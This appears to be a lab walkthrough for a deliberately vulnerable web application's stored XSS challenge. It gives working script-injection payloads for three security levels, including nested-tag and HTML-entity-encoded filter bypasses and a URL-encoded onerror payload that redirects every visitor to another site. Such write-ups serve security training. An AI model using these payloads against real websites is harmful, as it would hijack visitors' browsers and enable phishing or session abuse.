 # XSS (Stored)

Objective

Redirect everyone to a web page of your choosing.

## low

"Message" parameter is restricted to 50 characters.  
To bypass this, we just need to split our code and POST them one by one.

```html
<script>z='window.location.replace'</script>
<script>z+='(\"http://www.baidu.com\")'</script>
<script>eval(z)</script>
```

> PHPSESSID=j4qh43u6j16jm4k8kp1ksjq5n3; security=low

## medium

"Message" gets nicely filtered by `strip_tags()` and addslashes, but
"Name" is not. We just need to bypass the length restriction and
`str_replace('<script>')`.

Sending POST data with curl or burpsuite to bypass frontend restriction of
string length.  
Here is the exp:  
```html
<scr<script>ipt>window.location.replace("http://www.baidu.com")</script>
```

> PHPSESSID=j4qh43u6j16jm4k8kp1ksjq5n3; security=medium

## high

Almost the same as medium but this time "Name" is filtered by
`preg_replace()`.  
Usage of `<script>` is limited by `preg_replace()`, but we can html-encode 
character 'p' to bypass.

```html
<img src="" onerror="javascript:window.location.replace('http://www.baidu.com')">
<img src="" onerror="javascri&#112;t:window.location.re&#112;lace('http://www.baidu.com')">
%3c%69%6d%67%20%73%72%63%3d%22%22%20%6f%6e%65%72%72%6f%72%3d%22%6a%61%76%61%73%63%72%26%23%31%31%32%3b%69%74%3a%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%2e%72%65%26%23%31%31%32%3b%6c%61%63%65%28%27%68%74%74%70%3a%2f%2f%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d%27%29%22%3e
```

> PHPSESSID=j4qh43u6j16jm4k8kp1ksjq5n3; security=high
